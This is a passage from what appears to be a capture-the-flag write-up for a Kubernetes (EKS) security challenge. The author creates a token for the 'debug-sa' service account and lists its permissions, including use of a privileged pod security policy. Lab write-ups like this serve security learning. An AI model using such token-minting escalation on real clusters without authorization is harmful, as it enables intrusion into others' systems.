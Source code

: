 Hmm, being able to create tokens for the `debug-sa` resource definitely seems
suspicious. So lets see if that will get us anywhere:

```bash
root@wiz-eks-challenge:~# export TOKEN=$(kubectl create token debug-sa)
root@wiz-eks-challenge:~# kubectl --token $TOKEN auth can-i --list
warning: the list may be incomplete: webhook authorizer does not support user rule resolution
Resources                                       Non-Resource URLs                     Resource Names     Verbs
selfsubjectaccessreviews.authorization.k8s.io   []                                    []                 [create]
selfsubjectrulesreviews.authorization.k8s.io    []                                    []                 [create]
                                                [/.well-known/openid-configuration]   []                 [get]
                                                [/api/*]                              []                 [get]
                                                [/api]                                []                 [get]
                                                [/apis/*]                             []                 [get]
                                                [/apis]                               []                 [get]
                                                [/healthz]                            []                 [get]
                                                [/healthz]                            []                 [get]
                                                [/livez]                              []                 [get]
                                                [/livez]                              []                 [get]
                                                [/openapi/*]                          []                 [get]
                                                [/openapi]                            []                 [get]
                                                [/openid/v1/jwks]                     []                 [get]
                                                [/readyz]                             []                 [get]
                                                [/readyz]                             []                 [get]
                                                [/version/]                           []                 [get]
                                                [/version/]                           []                 [get]
                                                [/version]                            []                 [get]
                                                [/version]                            []                 [get]
podsecuritypolicies.policy                      []                                    [eks.privileged]   [use]
```
